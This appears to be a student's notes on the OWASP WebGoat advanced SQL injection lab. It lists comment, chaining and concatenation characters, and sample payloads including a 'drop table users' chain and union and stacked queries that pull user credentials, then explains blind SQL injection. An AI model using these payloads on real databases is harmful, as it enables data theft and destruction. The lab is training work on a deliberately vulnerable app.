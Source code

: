 # SQL Injection (advanced)
Special Characters
```
/* */ 	 are inline comments
-- , # 	 are line comments

Example: Select * from users where name = 'admin' --and pass = 'pass'
```

```
;        allows query chaining

Example: Select * from users; drop table users;
```

```
',+,||	 allows string concatenation
Char()	 strings without quotes

Example: Select * from users where name = '+char(27) or 1=1
```

Special Statements
- Unions	allows overlapping of database tables 'Select id, text from news union all select name, pass from users'
- Joins allows connecting to other tables

## Pulling Data From Other Tables
Code used:
```
Dave' ; select * from user_system_data; --
```

Dave's password:
```
passW0rD
```

![alt text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/3%20pulling%20data%20from%20other%20tables.PNG?token=ANjmpjtrBwt5Xner3U9Ab5iw9YyQ3HF-ks5buFlnwA%3D%3D)

## Blind SQL Injection
- Asks the database true or false questions
- Determines the answer based on the applications response
- Often used when the web application is configured to show generic error messages
- BUT has not mitigated the code that is vulnerable to SQL injection.

### Difference
- Normal SQL Injection:
  - error messages from the database are displayed
  - gives enough information to find out how the query is working
- Blind SQL Injection
  - application does not reflect the information directly on the webpage
  - so in the case where nothing is displayed
  - have to start asking the database true or false questions.
  - therefore blind SQL injection much more difficult to exploit.
